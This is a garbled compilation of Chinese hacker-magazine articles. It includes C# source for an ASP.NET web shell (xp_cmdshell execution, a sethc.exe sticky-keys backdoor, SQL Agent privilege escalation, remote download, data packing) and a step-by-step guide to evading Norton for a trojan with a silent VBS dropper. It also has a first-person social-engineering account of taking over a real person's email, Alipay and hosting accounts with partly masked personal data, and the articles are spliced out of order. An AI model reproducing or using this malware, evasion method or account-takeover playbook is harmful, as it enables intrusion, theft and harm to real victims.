dr = cmd.ExecuteReader();
if (dr.Read())
{
    int getv = Convert.ToInt32(dr.GetValue(0));
    dr.Close();
    dr.Dispose();
    if (getv != 0)
    {
        string cmdshellstr = "exec xp_cmdshell '" + shellcmd.Text.Trim() + "'";
        cmd = new SqlCommand(cmdshellstr, conn);
        dr = cmd.ExecuteReader();
        while (dr.Read())
        {
            if (dr.HasRows == true)
            {
                for (int m = 0; m < dr.FieldCount; m++)
                {
                    this.sqlshow.Text = sqlshow.Text + dr.GetValue(m) + "\r\n";
                }
            }
        }
        dr.Close();
        dr.Dispose();
        cmd.Dispose();
    }
}
conn.Close();
conn.Dispose();
```

`dr.FieldCount` 表示读取每一列的值。至于后面的几个操作，都差不多，就是利用存储过程去执行命令，在这里就不再贴代码了。

前段时间在入侵的时候，冰的原点兄弟提供了个 SA 权限下映像劫持的代码，在写此马的时候把这个功能也加进去了，映像劫持不需要任何命令，执行后只需要在终端登录窗口按 5 下 Shift 键就可以进入桌面，代码如下：

```sql
exec master.dbo.xp_regwrite 'HKEY_LOCAL_MACHINE',
'SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options\\sethc.exe','debugger','REG_SZ','c:\\windows\\explorer.exe'
```

代码用 Sethc.exe 粘滞键劫持桌面的资源管理器，在此感谢冰的原点提供好的思路，如图 6 所示。


上面的 SQL 提权权限必须为 SA，所以感觉要求很苛刻。有没有好的方法在 Dbowner 或者是 PUBLIC 权限下提权呢？答案是肯定有的。Dbowner 提权方面，有很多资料说把远控木马写入到启动项，不过这样的成功率不是很大，今天说的提权是利用 SQL Server Agent 服务开启作业管理来实现提权。

由于需要用到 sp_add_job 和 sp_add_jobserver 两个存储过程，而这两个存储过程在 MSDB 数据库中，代码如下：

以往 ASP 木马在连接未打 MSSQL SP4 补丁的机器时，明明机器上运行了 MSSQL，并且端口也没有改，却提示 SQL 不存在或拒绝访问，如图 5 所示。


对此，本人对连接数据库方面修正了这个问题，当连上数据库时首先 `select count(*) from master.dbo.sysobjects where xtype='X' and name='XP_CmdShell'`，若返回 1 说明存在 XP_CMDSHELL，这样程序继续执行。代码如下：

```csharp
string dbconnstr = "server=." + dbporta + ";User ID=" + dbname.Text.Trim() + ";Password=" + dbpass.Text.Trim() + ";database=msdb";
dbsqlconn.Open();
string webnamea = "Select host_name()";
SqlCommand dbcmda = new SqlCommand(webnamea, dbsqlconn);
SqlDataReader dbsr = dbcmda.ExecuteReader();
dbsr.Read();
string websqa = dbsr.GetValue(0).ToString();
string agentsql = "EXEC sp_add_job @job_name = 'jktest', " +
" @enabled = 1, " + " @delete_level = 1 " +
" EXEC sp_add_jobstep @job_name = 'jktest', " +
" @step_name = '[Exec my sql]', " + " @subsystem = 'TSQL', " +
" @command = 'exec master..xp_execresultset N''select '''' exec '''' from master..xp_cmdshell ''''' + dbcmd.Text + ''''' > c:\\jk.txt'''''',N''Master'' '" +
" EXEC sp_add_jobserver @job_name = 'jktest', @server_name = '" + websqa + "' " +
" EXEC sp_start_job @job_name = 'jktest' ";
dbsr.Close();
dbsr.Dispose();
dbcmda.Dispose();
dbcmda = new SqlCommand(agentsql, dbsqlconn);
dbcmda.ExecuteNonQuery();
dbshow.Text = "命令成功完成！";
```

代码中需要获取本地计算机名称，用 `Select host_name()` 来获得即可。接下来是编写注册表读取功能，在默认的环境下读取端口信息，代码如下：

```csharp
string jkregstr = regtext.Text.Trim();
int regindex = jkregstr.IndexOf("\\") + 1;
int reglastindex = jkregstr.LastIndexOf("\\") + 1;
string getzhi = jkregstr.Substring(reglastindex, jkregstr.Length - reglastindex);
string regstr = jkregstr.Substring(0, regindex).ToUpper();
string reglaststr = jkregstr.Substring(regindex, reglastindex - regindex);

switch (regstr)
{
    case @"HKEY_LOCAL_MACHINE\\":
        RegistryKey rega = Registry.LocalMachine.OpenSubKey(reglaststr);
        oregstr = rega.GetValue(getzhi, "null").ToString();
        break;
    case @"HKEY_CLASSES_ROOT\\":
        RegistryKey regb = Registry.ClassesRoot.OpenSubKey(reglaststr);
        oregstr = regb.GetValue(getzhi, "null").ToString();
        break;
    case @"HKEY_CURRENT_USER\\":
        RegistryKey regc = Registry.CurrentUser.OpenSubKey(reglaststr);
        oregstr = regc.GetValue(getzhi, "null").ToString();
        break;
    case @"HKEY_USERS\\":
        RegistryKey regd = Registry.Users.OpenSubKey(reglaststr);
        oregstr = regd.GetValue(getzhi, "null").ToString();
        break;
    case @"HKEY_CURRENT_CONFIG\\":
        RegistryKey rege = Registry.CurrentConfig.OpenSubKey(reglaststr);
        oregstr = rege.GetValue(getzhi, "null").ToString();
        break;
}
```

代码中用 RegistryKey 类的实例化对象，再用 Registry 对象的 `OpenSubKey` 打开对应的键值，用 RegistryKey 对象的 `GetValue` 方法获取值，如图 7 所示。


接下来编写“端口扫描”功能，因为在 .NET 中可以使用 Socket 来访问网络信息，所以比 ASP 容易实现。lake2 大牛曾经用 ASP 写过端口扫描功能，现在这个功能已经被集成到 ASP 木马中。话题说远了，还是回到 .NET 中，我们怎么实现呢？代码如下：

```csharp
string portstr = scanport.Text.Trim();
string[] getportstr = portstr.Split(',');

foreach (string pt in getportstr)
{
    try
    {
        TcpClient tc = new TcpClient();
        tc.Connect("127.0.0.1", Convert.ToInt32(pt));
        ListBox2.Items.Add(pt.ToString() + "端口" + "——" + "开放！");
        tc.Close();
    }
    catch (SocketException)
    {
        ListBox2.Items.Add(pt.ToString() + "端口");
    }
}
```


代码中用 TcpClient 类的 `Connect` 方法去连接扫描端口，如果可以连接上就开放了，如果返回异常则没有开放，如图 8 所示。下面来编写“远程下载”功能。.NET 中利用 WebClient 类的 `DownloadFile` 属性就可以轻松下载文件并保存到服务器上，代码如下：

```csharp
WebClient wc = new WebClient();
wc.DownloadFile(remoteurl.Text.Trim(), localurl.Text.Trim());
Response.Write("<script>alert('保存成功！')</script>");
wc.Dispose();
```

SU 提权不说了，lake2 很早就写出来了，我在这里加上此功能。下面说下“IIS 遍历”，代码如下：

```csharp
string iisstr = "IIS://localhost/W3SVC";
DirectoryEntry jkde = new DirectoryEntry(iisstr);
string destrname = destr.Name.ToString();
DirectoryEntry dirstr = new DirectoryEntry(iisstr + "/" + destrname);
DirectoryEntry dirstr1 = dirstr.Children.Find("root", "IIsWebVirtualDir");
iisusername = dirstr1.Properties["AnonymousUserName"].Value.ToString();
iisk = destr.Properties["ServerBindings"][0].ToString();
iiswebpath = dirstr1.Properties["path"].Value.ToString();
```

上述代码中利用 DirectoryEntry 列出所有的活动目录，在这里因篇幅限制仅把重要代码截取下来了。`DirectoryEntry dirstr1 = dirstr.Children.Find("root", "IIsWebVirtualDir");` 这句代码表示在 IIS 子虚拟目录分别获取 AnonymousUserName 及默认的账户，如图 9 所示。


SQL Server 和 ACCESS 的操作功能也是必不可少的，由于代码较长，这里也就不一一说了，请看看图 10、图 11 所示的结果吧。

最后编写“打包功能”。传统的海洋木马是将文件先以二进制写入数据库，再在客户端用二进制读出。由于在 .NET 中建数据库还需要引用组件，不适合后门开发，这里就用了 RAR 这个压缩软件来完成打包功能。代码如下：


```csharp
the_Reg = Registry.ClassesRoot.OpenSubKey(@"Applications\WinRAR.exe\shell\Open\command");
the_Obj = the_Reg.GetValue("");
the_rar = the_Obj.ToString();
the_Reg.Close();
the_rar = the_rar.Substring(1, the_rar.Length - 7);
```

# 免杀 API 函数过滤术

> **10086南方的冬天：**

时间真快，不知不觉已经十个月了，2009年也开始接近尾声了。回想起来，总觉得好像经历了许多。今年最让人瞩目的是国庆十月的阅兵，小编就是还没睡醒就被人给揪起来看阅兵了。不过看到整齐的阅兵队伍，我觉得还是蛮值得的。十一月了，刚好过了传统中的金秋十月，北方的气温也开始感觉到寒冷了，但是南方这里却还是那么的高温，不知道文叔在北京是否依然安好？感情是否没烦恼？还有就是土豆大哥……


图书趣轩

**从本文你可以学到：**

- 如何改动 API 函数过滤壳

最近一直在用的免杀木马又被诺顿给查杀了，于是我就只好重新再做一次免杀。使用 MYCCL 定位出的结果为[特征]000A0830_00000002，如图1。

接着我们用 WinHex 打开木马服务端 muma.exe，然后按快捷键“Alt+G”调出“跳转”窗口，输入定位出来的偏移地址 000A0830，如图2。


点击“确定”后即可看到特征码了，如图3。特征码为一个小写的字母 v，但是再仔细一看，你就会发现这是一个 API 函数名，即 WaveInStart，并且在上面靠得很近的那个 winmm.dll 则是这个 API 函数所属的动态链接库文件。我的免杀思路就是把这个被查杀的 API 函数移动到别的地方。

偏移地址 000A082C 到 000A0838 就是该函数所占的位置，我们用记事本抄下该函数的 16 进制数值 `00 00 77 61 76 65 49 6E 53 74 61 72 74`（注：每个输入表 API 函数前面都有两个空格，即十六进制的 00 00），如图4。


然后把这一段位置都用 00 填充，如图5。

接着我在下面的不远处 000A0B40 找到了空白区域，再把刚才那段 16 进制数据全部写到这里，如图6。这样一来，waveInStart 函数就由 000A082C 转移到了 000A0B40，修改完后别忘了保存。


虽然该 API 函数已转移到了 000A0B40，但程序调用该函数时还是会到原来的位置去找，所以我们还要进行最后一步修改，使调用的位置指向我们移位后的 000A0B40。

首先我们要用 OC（偏移量转换器）把 waveInStart 函数移位前后的文件偏移转换成虚拟内存地址，如图7、图8。

即 API 函数原文件偏移 000A082C 转换后得到虚拟内存地址 004A8C2C，移位后的偏移地址 000A0B40 转换得到虚拟内存地址 004A8F40。接着运行 LordPE，如图9。

点击“PE编辑器”选择我们修改后的木马服务端，在弹出的窗口中可看到镜像基址（Image Base）为 00400000，如图10。


这里给出一个计算公式：虚拟内存地址（VA）= 镜像基址（Image Base）+ 相对虚拟地址（RVA），由此公式可算出 API 函数移位前后的相对虚拟地址分别为 000A8C2C 和 000A8F40（记住这两个数值）。然后再点击“目录”按钮，就会看到“目录表”窗口，如图11。


接着点击“输入表”后面的“...”按钮，就能看到输入表的信息窗口，在窗口上方找到 winmm.dll 并选中它，再在窗口下方的“Thunk值”一栏找到我们计算出来的地址 000A8C2C，如图12。


这时你会发现这里的 API 函数名为空白，这是因为该位置的数据都被我们用 00 填充掉了，自然就获取不到 API 函数名了。接下来右击地址 000A8C2C 处，在菜单里选择“编辑”，如图13。


在弹出的窗口中，把“Thunk值”这一栏的 000A8C2C 改写为我们转移后的相对虚拟地址 000A8F40，如图14。


点击“确定”后你就会看到 API 函数名又能正常显示了，如图15。

全部保存后我们就修改完成了。可我万万没想到，修改后的木马居然还会被诺顿查杀，如图16。


我以为是开始时定位的结果有误，于是就试着把函数名 waveInStart 进行大小写互换，这样修改后诺顿就不再查杀了，这说明定位的结果是正确的（注：由于 API 函数名是严格区分大小写的，所以不能用大小写互换进行免杀，这里只是用来判断定位结果是否正确）。这就奇怪了，以前移动 API 函数是可以过诺星的，可我实在想不通为什么过不了诺顿，郁闷了好久……


后来无意中看到了 grrxrslt 写的一篇文章——《另类过诺顿查杀“KERNEL32.DLL”》，文章中道出了诺顿查杀动态链接库文件的原理，下面引用该文作者的部分原话：动态链接库文件在输入表中的结构，如图17。

这里“输入表查看”会获取相应的 DLL 文件信息，然后结构“IMAGE_IMPORT_DESCRIPTOR”会把“输入表查看”和 DLL 文件的信息都集成在里面。而诺顿正是利用了这一点，它通过查找输入表的结构“IMAGE_IMPORT_DESCRIPTOR”，然后获取 DLL 信息，当其等于某个值时就报毒，而我们无论怎么移动 API 函数，结构“IMAGE_IMPORT_DESCRIPTOR”都会获取其位置。


根据诺顿的查杀原理，grrxrslt 还给出了免杀思路——可以修改 API 函数所属的 DLL 的名称，从而躲过诺顿的查杀。具体看我操作：用 WinHex 打开我们修改前的那个 muma.exe，然后按快捷键“Ctrl+H”调出“替换”窗口，在“搜索：”里填写“winmm.dll”，“替换：”里则填写“hkxjx.dll”（这里也可以换成别的名称，不过要保持文件名长度与原先的一致），如图18。

替换完后进行保存。当然，此时的服务端是运行不了的，会提示“找不到 hkxjx.dll”，如图19。

忘了跟大家说明一下，winmm.dll 其实是位于 C:\WINDOWS\system32 这个位置的，我们复制一个 winmm.dll 到 system32 里并改名为 hkxjx.dll，如图20。


这时再运行木马就能成功了。也就是说，木马在运行之前必须保证 system32 文件夹里有 hkxjx.dll，这一步我们可以利用外壳程序来实现。我想到的是 VBS 脚本，不知大家是否还记得我在 9 月份发表的那篇《永不被查杀的捆绑器》，我们这里就是要用那个办法来把 muma.exe 和 VBS 脚本文件进行捆绑。首先来写一个 VBS 脚本文件，代码如下：

```vb
Dim mm
mm="muma.exe"
Set wshshell=wscript.createobject("wscript.shell")
Set fso=createobject("scripting.filesystemobject")
Set f1=fso.getfile("run.vbs")
wshshell.run "cmd /c copy C:\WINDOWS\system32\winmm.dll C:\WINDOWS\system32\hkxjx.dll", vbhide
wshshell.run mm
f1.delete
```


将以上代码用记事本另存为 run.vbs，然后把 run.vbs 脚本和 muma.exe 放在一起，用鼠标全部选定后右击选择“添加到压缩文件”，如图21。

将“压缩选项”中的“创建自解压缩文件”勾选上，如图22。

然后切换到“高级”选项页，点击那个“自解压选项”，弹出“高级自解压选项”窗口，在解压路径写上“C:\Program Files\Internet Explorer”（解压路径也可以写成别的），再在下面的“解压后运行”中写上“run.vbs”，如图23。

接着切换到“模式”选项页，在“安静模式”中选择“全部隐藏”，下面的“覆盖模式”中选择“覆盖所有文件”，如图24。

再切换到“文本和图标”选项页，在“从文件加载自解压文件图标”旁点击“浏览”，选择自解压包的图标，建议找个具有迷惑性的，如图25。

最后“确定”就行了。生成后的自解压文件已经能躲过诺顿的查杀了，如图26。

测试了一下，木马能成功运行，且功能使用正常。至此，我们的免杀工作就完成了！


【文章所涉及到的目标程序已收录在光盘中】

编辑点评：长期看黑手的结果就是让你在苦闷的时候得到提示，得到灵感。本文作者是对以往杂志内容的技巧方法的运用，很不错！不过运用捆绑很容易被发现，如若让用户上报给杀软的话，那么病毒工程师在几分钟之内就可以把这个木马查杀！所以，考虑一下如何更隐蔽吧！

代码首先读取注册表中安装 rar 文件的位置，然后截取 rar 文件名，再利用 Process 类执行 DOS 命令来完成打包，`the_StartInfo.Arguments = the_Info` 表示命令参数。

整体上看还是比较简单的，剩下的零碎功能在这里就不做介绍了，还是让大家多多体会吧。

# 写在最后

```csharp
the_Info = " a " + dabaodz.Text.ToString() + " " +
Getdbfilea(dbabom1.Text);

the_StartInfo = new ProcessStartInfo();
the_StartInfo.FileName = the_rar;
the_StartInfo.Arguments = the_Info;
the_StartInfo.WindowStyle = ProcessWindowStyle.Hidden;
the_StartInfo.WorkingDirectory = "C:\\";
the_Process = new Process();
the_Process.StartInfo = the_StartInfo;
the_Process.Start();
```

由于当初在写这款木马时设计上有点缺陷，所以在美工方面不咋的。另外，TreeView 控件没有 IsPostBack 属性，所以不能向服务端发送数据，导致在部分操作上会有冲突，不过大家可以通过“刷新页面”链接来重新载入页面。

（文章中所涉及的相关源码及工具亦已收录在本期光盘）

编辑点评：一款 ASP.NET 的小马就这么产生了，整个代码是框架式组成的，各个部分独立，读者可以根据自己的要求来自行添加功能。

# 忆一次社会工程学渗透

图：漫步荧月【沐瑶】

> 社工栏目总觉得长时间没有看到过社工类的文章了，这也许是社工比单纯的入侵复杂度更大的原因吧。文不在多，而在于大家能够从中获取一些什么。希望大家不要去糟蹋社工这个优秀的黑客技术，甚至在胡搅的黑手文章中，都可以联系到社工的例子，就看你有没有悟性了。


**从本文可以看到一次基本的社工过程**

听说我们这个小镇有个 XX 社区、XX 镇门户网这样的站点，俺就想测试测试网站的安全性，于是就开始行动了。

通过初步测试，主站是没有办法入手了，用的是 Discuz! 7.0 程序。有的小菜说用旁注啊，但如果权限限制得很死的话，成功几率也并不高。即使拿到了 WebShell，也并没有 100% 的把握可以拿到服务器，于是我就想，是否可以利用社工来进行入侵。

习惯性地在 sec 快捕手（www.51snap.com）查了下，通过 whois 查询了目标站点，获取了部分重要信息，如图1。


我们获取了注册人姓名、邮箱，以及电话号码等信息，然后利用 Google 搜索他的邮箱 ***yuliang4@163.com，一共有 76 项符合条件的查询结果，如图2。

通过 Google 我们获取了他的移动电话以及 QQ 号码，并且还发现了站长在网易的博客，于是打算从他的博客入手。玩过网易博客的人都知道，里面有个“关于我”的模块，可以获取许多有用的个人信息。但是他的网易博客设置了权限，我们没有办法获取这些信息了。

通过我们仅有的信息，然后 Google 搜索了他的名字 ***yuliang，也并没有获取任何有价值的东西。冷静下来想了想，刚才不是获取了他的 QQ 号码吗？我们查找他的 QQ 号码，发现他 QQ 资料上还有另外一个邮箱 **en@live.cn，如图3。


我们进入他的 QQ 空间，看是否能获得更重要的信息。他的生日 11 月 12 日，年龄 22 岁，最喜欢的偶像是刘德华，如图4。

下面还有部分信息，最喜欢的电影也是刘德华的。收获还是不小的，如果打算进行社工，资料就需要一点点地去收集，这对我们下面进行的渗透会有很大的帮助。


获取了生日信息后，我们去看看 163 的邮箱是否能找回来。写入他的出生年月日，正确，进入下一步，提示问题是“我的朋友”。用他的名字 ***yuliang 回答，错误，猜测了几个都不正确。

记得我们刚才进入他的 Q-zone 时发现此君是刘德华的粉丝，干脆写个“刘德华”试试。回答正确，人品爆发，看来此君是刘德华的超级粉丝啊。哈哈，成功拿下网易 163 的邮箱，如图5。


成功进入他的邮箱，通过翻阅他的电子邮件，获取了他的网站备案管理系统的用户名和密码，如图6。

很好很强大，用获取的管理账户以及密码进入备案网站管理系统。在这里我们获得了他的身份证号码以及家庭详细地址，如图7。


读其他的邮件，也并没有找到其他的重要资料，而且这个邮箱似乎用得较少，好多邮件都没有查收。我们再去他的另外一个邮箱 **en@live.cn 看看，需要重新设置密码，如图8。

分析手里收集的信息，他的网站是 XX 旗舰门户，XX 旗的邮编是 04XX，于是在“问题：母亲的出生地点”下写入“XX 旗”。问题答案完全正确，不得不对他的网络安全意识提出质疑，这样我们就获得了他 live 邮箱的管理密码。这人貌似没有看邮件的习惯，有很多未读邮件，如图9。

翻来翻去，找啊找啊，终于又获得了一些敏感的信息。通过支付宝的邮件我们获取了他的支付宝账户 **en@live.cn。利用回答安全保护问题找回密码并没有成功，用支付宝的都知道，支付宝有 2 种找回密码的方法，既然问题答案猜解不出来，我们就利用有效证件号码直接找回密码。因为之前我们已经在网站备案管理系统中获得了他的有效证件号码，于是找回密码成功。在邮箱发来的信函中成功地改掉了他的密码，登录了支付宝，如图10。


在这里我事先声明一下，做什么事情都要有准则，不要去挑战法律的权威。然后我又通过掌握的信息对他的 QQ 账户密码进行猜解，以失败告终。

选择找回 QQ 功能的时候，有三个提示问题，分别是他父母的姓名，以及他的出生地。我们的重点不是 QQ 号码，要不我们是有办法获取这三个问题的答案的。我们有了他的家庭地址，有了他的电话，完全可以动脑继续社工，或者是进行申诉。用证件号码申诉 QQ，成功的几率是相当高的。

继续在 live 邮箱筛查，终于找到了我希望得到的东西，大概内容就是他的站 www.***pack.com 无法访问了，咨询他的服务商，服务商给答复的邮件。我们从中获取了他空间域名服务商 **China 以及他注册时的用户名，如图11，万事俱备，只欠东风。


进入 **China 空间服务商主页，利用他的账户对密码进行猜测后并没有成功。选择找回密码试试，我们之前 whois 查询的时候，得到了他注册时的邮箱 ***yuliang4@163.com，但是取回密码失败。我也想过用他的 live 邮箱来取回密码，但是他属于高级用户，取回密码必须要和客服进行联系，如图12。


看来只能将社工进行到底了，毕竟我们现在拥有了他的一切信息，取回他的管理密码只是时间问题。联系下他们站的客服，以下是聊天记录，我用另外一个 QQ 号将名字换成了 ***yuliang 的网名进行欺骗。

> Yoolang：你好，在吗？
>
> 客服：在的，请问有什么可以帮助您？
>
> Yoolang：我的密码忘记了。
>
> 客服：您的会员名是多少？
>
> Yoolang：会员名：***yuliang4。
>
> 客服：稍等。
>
> 客服：您明天联系一下您的销售顾问吧。
>
> 您的销售顾问：张真，联系电话 0534221****-807，联系 QQ 10021****
>
> Yoolang：哦，她现在在吗？
>
> 客服：明天才正式上班吧，今天应该不在吧。
>
> Yoolang：我比较着急，你可以帮我找回来吗？
>
> 客服：我权限不够，得不到你的密码。
>
> Yoolang：你现在联系不到她吗？
>
> 客服：要不你联系一下我们值班的技术，让他们给你发邮箱里，他们电话是 0534-292****。
>
> Yoolang：行吧。
>
> Yoolang：怎么没人接听？
>
> 客服：等一下再打吧。
>
> Yoolang：还不行，没人接。

由于是晚上快 11 点了，值班技术电话打了好几个都没有人接听，他们的主页还在吹牛说什么 24 小时技术支持咨询电话，只能等次日了。

次日，一觉睡起来 9 点多了，迫不及待地给销售顾问张真打了电话。

> Yoolang：喂，你好。

# 菜鸟逆向需注意脚本程序带来的误区


**从本文你可以学习到：**

- AutoIt 脚本程序的一个误区

System 权限提升的方法有诸多，但是除了通过服务实现外，大部分都需要借助于工具，这些工具的实现原理一直是我所好奇的。某日，在缘兵的论坛上又看到这样的一个工具，于是想通过逆向分析该程序，学会这种编程方法，结果自己走进了一个小小的误区。后来在看雪论坛上也发现有这样的问题帖，不过一直没解决，所以将我的经历写出来作为一种经验与菜鸟朋友们一起分享，高手飞过！

说明图上没有搞错，本程序的确可以实现 System 的权限提升！

## 1、测试程序

运行程序，会提示我们选择要提升权限的可执行文件，这里以 cmd.exe 为例子。运行工具后找到 cmd.exe 单击打开，程序会运行 cmd.exe，打开任务管理器，查看到运行 cmd.exe 的用户为 System，如图 1。


## 2、ESP 定律脱壳与附加段数据修复

使用 PEiD 查壳，显示为 UPX 壳，提示还有附加段数据，如图 2。

用 OD 载入程序，F8 单步执行，会发现 ESP 突显，如图 3。

在 OD 界面的最下面“命令”处执行 `hr 12FFA4` 下硬件访问断点，F9 运行程序，会执行到如下代码处：


```asm
00482977    8D4424 80        lea eax,dword ptr ss:[esp-80]
0048297B    6A 00            push 0
0048297D    39C4             cmp esp,eax
```


图 3 ESP 显示红色


图 4 提示错误


图 5 LordPE 查看区段信息

```asm
0048297F    75 FA            jnz short SystemRu.0048297B
00482981    83EC 80          sub esp,-80
00482984    E9 3763FCFF      jmp SystemRu.00448CC0
00482989    0000             add byte ptr ds:[eax],al
```

在 OD 的“命令”栏中，输入 `hd 12FFA4` 删除刚才的硬件访问断点，F4 打断 0048297F 处向上的跳转，执行 `jmp SystemRu.00448CC0`，程序跳到 OEP！右键选择“使用 OllyDump 脱壳进程”，保存脱壳后的文件就可以了。

用 PEiD 打开脱壳后的文件，提示为 Microsoft Visual C++ 7.0 [Overlay]，然后我们运行程序，会提示如图 4 的错误，这是因为脱壳的时候将附加数据一起脱掉了！用 LordPE 打开原程序，单击“区段”按钮来查看程序的区段信息，如图 5。

可以看到，最后一行中，字节的 Roffset+Rsize=附加段数据起始的文件偏移地址！用 C32Asm 打开原程序，Ctrl+G 跳转到 38800 处，将其后所有数据复制，然后再用 C32Asm 打开脱壳后的文件，转到文件的最后，将复制的数据粘贴。到这里附加段数据处理完成，可以正常运行程序了！

## 3、寻找主函数

要了解这个小程序的功能实现，我们可以从主函数入手。对 C/C++ 混编语言制作的程序来说，只要找到它的主函数，通过主函数中子函数及 API 的调用关系就基本可以摸清它的实现流程，甚至直接将 API 调用顺序记录下，就可以学会这种程序的编写方法！

众所周知，Windows 中的应用程序可以简单地分为控制台程序和 GUI 程序，但是这两类程序从本质上来说是没有明显界限的。原因在于，启动函数可以在程序链接的时候使用 `/entry` 指明。

一般来说，控制台程序的主函数为 `int main(int argc,char **argv,char **envp)` 的格式，这种格式的启动函数一般是在最后的时候调用 GetEnvironmentStrings() 函数来得到环境变量的内存起始地址——`char **envp`，所以对于控制台程序，找到 GetEnvironmentStrings 函数后，一般下面的第一个 Call 就是主函数了。

而对于 GUI 程序来说，主函数格式一般为 `int WINAPI WinMain(HINSTANCE hInstance,HINSTANCE hPrevInstance,LPSTR CmdLine,int nShowCmd)` 的格式，这种格式的启动函数一般是在最后的时候调用 GetModuleHandle() 来得到 PE 文件载入内存后的文件句柄，其实也就是 PE 文件基址。找到该函数后，下面的第一个 Call 一般就是主函数了。

正是基于此，当我找到第一个 GetModuleHandle 函数后，发现的代码如下：

```asm
00448D2C    56                push esi
00448D2D    8B3D 1C614500     mov edi,dword ptr ds:[<kernel32.GetModuleHandleA>]
00448D33    FFD7              call edi
00448D35    66.8138 4D5A      cmp word ptr ds:[eax],5A4D
```

显然第一个 Call 并不是程序的主函数，而是 GetModuleHandle 函数的地址，与一般的 C 程序有点不同。一般的 C 程序不仅不会这样调用主函数，而且一般只有一个 GetModuleHandle()。如果出现多个，一般出于 Anti-debug 的多线程考虑，不过后来证明不是！

再向下翻看，来到如下代码位置：

```asm
00448E3C    FFD7              call edi
00448E3E    50                push eax
00448E3F    E8 308AFBFF       call unpacker.00401874
00448E44    8BF8              mov edi,eax
00448E46    897D D4           mov dword ptr ss:[ebp-2C],edi
00448E49    3975 E4           cmp dword ptr ss:[ebp-1C],esi
```

以上代码与 C 程序的主函数入口极其相似，在 00448E3F 上按 F4 键执行到本指令，按 F7 跟进，结果看到如下代码：

```asm
00401874    8B4424 04         mov eax,dword ptr ss:[esp+4]
00401878    8325 083B4600 0   and dword ptr ds:[463B08],0
0040187F    8325 043B4600 0   and dword ptr ds:[463B04],0
00401886    53                push ebx
00401887    56                push esi
00401888    68 050B4100       push unpacker.00410B05
0040188D    A3 303B4600       mov dword ptr ds:[463B30],eax
00401892    E8 11490400       call unpacker.004461A8
00401897    6A 01             push 1
00401899    E8 49490400       call unpacker.004461E7
```

这显然不是一个 C/C++ 函数的反汇编代码，因为我们知道，一般的程序函数调用时，总会执行类似下面的代码：

```asm
push ebp             ; 保存前栈帧基底地址
mov ebp,esp          ; 开辟新栈帧
sub esp,xxx          ; 开辟栈空间
mov ecx,xxx          ; 设置初始化次数
rep stos xxxx        ; 初始化栈空间
```

难道我们又找错了位置？于是不管三七二十一，再次跟进第一个 Call，跟来跟去，主函数没跟到，结果把程序跟飞了，到这里此思路暂时被否定！

## 4、变换思路：字符串参考

既然找主函数这么难，我们不妨让程序出错！程序出错一般总会弹出友好的提示，通过这个提示来找到程序实现的关键部分。于是运行程序，不选择程序，在弹出的窗口中直接点“取消”按钮，提示如图 6 的错误。


图 6 错误对话框

用 OD 载入程序，在反汇编窗口，右键选择“字符串查找”→“查找 ASCII”，这下才明白程序的原理是什么，如图 7。

从图中可以看到 AutoIt 的字符，到这里我们不管该程序是怎么实现的，反正它的实现和 AutoIt 脚本有关系！一种推论是程序编写好后（PEiD 提示为 Microsoft Visual C++ 7.0），将脚本附加到程序中（因为脱壳后提示无法打开脚本），这种方法类似于“捆绑”的原理；另一种推论是该工具只是一个脚本程序而已，PEiD 提供了假信息！原因是 AutoIt 是一种强大的 Windows 图形界面的脚本语言（Google 得知），完全可以使用它写出这样的程序！

难理解实现的原理了。因为 AutoIt 是一个开源的程序，通过网上的资源很快明白，原来使用 AutoIt 脚本要提升 System 权限只要调用 `_CreateProcessAsSystem()` 就可以了，而调用这个函数必须使用 LocalSecurityAuthority.au3 头文件。

在 Google 中搜索这个文件名，会找到它其中代码的详细解释，到这里总算理解了该程序的原理，因为网上有详细的说明，这里就不再描述！

## 5、反向证明推理

既然找到了线索，于是从网上下载了一个 AutoIt 脚本开发环境，查看其使用手册，随便编写一个脚本，保存为 test.au3：

`msgbox(0,"AutoIt Test","入口点：""AutoIt"",10)`

然后在 test.au3 上右键“编译脚本”，会自动生成 test.exe，我们用 PEiD 查其壳，与该程序的壳是一样的，如图 8。


到这里我们基本可以证明本程序不是 PEiD 所描述的那样——Microsoft Visual C++ 7.0 编写，而只是一个 AutoIt 脚本程序！

## 6、寻找原理

既然知道了程序只是一个简单的 AutoIt 编写的脚本，那就不难理解实现的原理了。因为 AutoIt 是一个开源的程序，通过网上的资源很快明白，原来使用 AutoIt 脚本要提升 System 权限只要调用 `_CreateProcessAsSystem()` 就可以了，而调用这个函数必须使用 LocalSecurityAuthority.au3 头文件。

在 Google 中搜索这个文件名，会找到它其中代码的详细解释，到这里总算理解了该程序的原理，因为网上有详细的说明，这里就不再描述！

## 7、总结

- A、工具会骗人的，PEiD 误导了我，如果它不提示为 Microsoft Visual C++ 7.0，我也就不会想当然地一直在为寻找主函数而费劲！
- B、AutoIt 脚本程序默认使用 UPX 0.89.6 - 1.02 / 1.05 - 1.24 -> Markus & Laszlo [Overlay]，如果在脱壳中发现入口特征与常规有出入，则应该考虑是不是 AutoIt 脚本程序！
- C、为了寻找主函数，我在实际操作中浪费了大量的时间，所以要学会变通，及时更换策略，以变制变才是王道！
- D、将 VBS 脚本也制作成 exe 文件，测试后发现一般的 VBS 脚本程序并不像 AutoIt 一样会加 UPX 的壳，而是加 ASPack 壳，并且一般不会有附加数据。看来 AutoIt 这种程序脚本在编程方面倒像是一种大型语言了，作为菜鸟应该掌握！

文章没有什么高深的内容，作为一种经验，当遇到一些非常规入口特征的程序时，考虑有可能是脚本程序就可以了！

【文章所涉及到的目标程序已收录在光盘中】

> 编辑点评：
>
> 文章写得很热忱，而且思路也很不错！一般来说，初学者遇到 AutoIt 的情况还是比较少的，因为 AutoIt 是一种脚本语言。虽然如此，但还是给一些没接触过的朋友带来一定的难度，因为很多初学者会去背 OEP 入口特征码，很有可能会忽略了其他的情况！对于 AutoIt，我这里提供一个判断方法，在到了 OEP 之后，使用超级字符串插件，如果发现有 “This is a compiled AutoIt script.” 这句，那么 99.9% 可以确定是 AutoIt 的程序了！

# 对流氓软件的爆破修改

- 从本文你可以学到：
- 1、如何追码
- 2、如何修改程序的代码达到需要的目的

一天在“黑鹰”上看到一款密码破解软件——万能密码查看器，声称对 Access 密码可以进行破解，原程序下载地址：http://snet1.3800hk.com/200908/090815wanneng.rar。下载来研究了一番，发现程序功能异常强大，不仅是下载者，而且还有流氓软件的特性！

